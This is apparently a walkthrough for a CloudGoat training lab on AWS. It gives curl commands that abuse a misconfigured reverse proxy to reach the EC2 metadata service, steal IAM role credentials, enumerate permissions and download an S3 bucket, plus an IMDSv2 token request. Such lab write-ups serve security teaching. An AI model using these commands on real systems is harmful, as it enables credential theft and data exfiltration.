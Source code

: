 # Scenario 2

cloud_breach_s3

## What is the scenario

The scenario begins with an IP address.

The objective is to exfiltrate sensitive data from an S3 bucket.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

## Setting up the scenario

        python3 cloudgoat.py create cloud_breach_s3

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario2-11.png)

### Step by step instructions

This scenario assumes that as an attacker we have reached an IP address after some reconnaissance. We have also figured out that the service on port 80 of the IP address is acting as a reverse-proxy server.

This is a common real-world scenario where as attackers we run into reverse-proxy or application layer "edge router" such a Nginx or Traefik etc which forward the requests to appropriate service based on the Host header in HTTP requests.

As attackers, we can exploit reverse-proxy server with overly permissive configuration to reach internal applications that we can't reach otherwise. This attack get's even more severe in cloud resources because of "Instance Metadata".

> Instance metadata is data about your instance that you can use to configure or manage the running instance. Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance. You can read more about IMDS data retrieval here https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

Let's verify if we can exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS). We are using curl HTTP client to make a HTTP request to retrieve metadata and we are adding a "Host" header whose value points to IP address of IMDS service. If the reverse-proxy server has overly permissive configuration then the request will be forwarded to IMDS service and it will return some metadata related information.

        curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

        curl -s \
        http://54.196.109.217/latest/meta-data/local-ipv4 \
        -H 'Host:169.254.169.254'

![metadata](imgs/scenario2-1.png)

![metadata-localipv4](imgs/scenario2-2.png)

Now it is evident that the reverse-proxy server has overly permissive configuration that we can exploit to access AWS EC2 IMDS.

From an external attacker point of view, one of the most lucrative information stored in IMDS is IAM role credentials. If we can steal IAM role credentials, we can do whatever the IAM role is allowed to do. In real world, it is quite common for an E2 instance to have IAM roles that they use to interact with other services in the AWS account such as S3 Buckets.

Let's go ahead and extract any IAM role credentials that are accessible via IMDS on this EC2 Instance.

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ \
        -H 'Host:169.254.169.254'

![role-name](imgs/scenario2-3.png)

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ROLE-NAME \
        -H 'Host:169.254.169.254'

![role-credentials](imgs/scenario2-4.png)

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-creds

![add-session-token](imgs/scenario2-5.png)

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

![enumerate-permissions](imgs/scenario2-8.png)

Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-creds
        aws s3 sync s3://BUCKET-NAME ./cardholder-data --profile stolen-creds

![bucket-list](imgs/scenario2-6.png)

![download-objects](imgs/scenario2-7.png)


## Extra mile

IMDS has been [widely exploited](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90) using web application vulnerabilities such as Server Side Request Forgery (SSRF), Command Injection etc in web applications running on EC2 to gain access to IAM credentials.

AWS released an update to EC2 instance metadata service which is used for querying instance metadata values. This new release, IMDSv2, according to AWS is a defence in depth against open firewalls and SSRF vulnerabilities. IMDSv2 needs a session token for making any request to the service. This token can only be obtained by making a specific request using the HTTP PUT method. You can read more about IMDSv2 at https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650

Although IMDSv2 effectively mitigates most SSRF attacks, it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.

Let's upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2. We need the latest AWS CLI ( >=1.16.287) that supports IMDSv2. Notice that we are using `cloudgoat` profile which is an Admin user to update EC2 instance from IMDSv1 to IMDSv2.

        pip3 install awscli
        pip3 upgrade awscli

        aws ec2 modify-instance-metadata-options \
        --instance-id <INSTANCE-ID> --profile cloudgoat \
        --http-endpoint enabled --http-token required

Let's exploit IMDS v2 using the mis-configured reverse proxy.

We can generate the token for accessing metadata endpoint with the below HTTP PUT request and store the token in a environment variable `$TOKEN`.

        export TOKEN=`curl -X PUT \
        -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
        "http://54.196.109.217/latest/api/token" \
        -H "Host:169.254.169.254"`

![generate-token](imgs/scenario2-10.png)

For further calls, we will use the security token obtained as part of the HTTP request header.

![get-localipv4](imgs/scenario2-9.png)

## Destroy the scenario resources

        python3 cloudgoat.py destroy cloud_breach_s3

## References

- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
